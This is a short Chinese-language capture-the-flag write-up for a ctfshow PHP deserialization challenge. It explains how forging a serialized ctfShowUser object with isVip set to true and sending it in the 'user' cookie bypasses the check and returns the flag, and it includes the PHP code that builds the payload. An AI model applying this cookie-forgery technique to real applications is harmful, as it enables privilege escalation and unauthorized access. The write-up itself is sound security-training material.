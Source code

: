 ### ①代码解释

以GET方式传入两个参数username和password，然后对user这个cookie进行反序列化，并且里面username和password需要让他们等于u和p，并且要求isVip等于1，就可以得到flag了。

### ②思路解释

我们知道了三个要求，$username等于$u,$password等于$p,$isVip等于true。

并且需要传入cookie的user和get两个参数。而且user需要时序列化后的结果。

我们首先需要对user进行序列化。我们可以用一个php代码来得到。

```php

<?php

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=true;
}
$a=new ctfShowUser();
echo serialize($a);

?>

```

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
